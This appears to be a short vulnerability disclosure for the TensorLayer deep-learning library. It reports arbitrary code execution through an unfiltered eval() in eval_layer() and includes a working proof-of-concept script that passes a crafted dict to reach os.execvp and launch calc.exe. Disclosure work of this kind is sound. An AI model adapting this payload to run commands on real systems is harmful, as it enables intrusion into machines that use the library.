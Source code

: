 ## :writing_hand: Description

`TensorLayer` is a novel TensorFlow-based deep learning and reinforcement learning library designed for researchers and engineers. It provides an extensive collection of customizable neural layers to build advanced AI models quickly. This package is vulnerable to `Arbitrary Code Execution`.

## :bug: Vulnerability

Use of `eval()` in `eval_layer()` function without filtering causes execution of system commands

## :male_detective: Proof of Concept

#### Installation
```bash
pip install tensorflow
pip install tensorlayer
```

#### Run exploit.py
```python
from tensorlayer.files.utils import eval_layer

eval_layer({'class': 'utils.np.os.execvp', 'args': {'layer_type': 'normal', 'file': 'calc.exe', 'args': ['0']}})
```
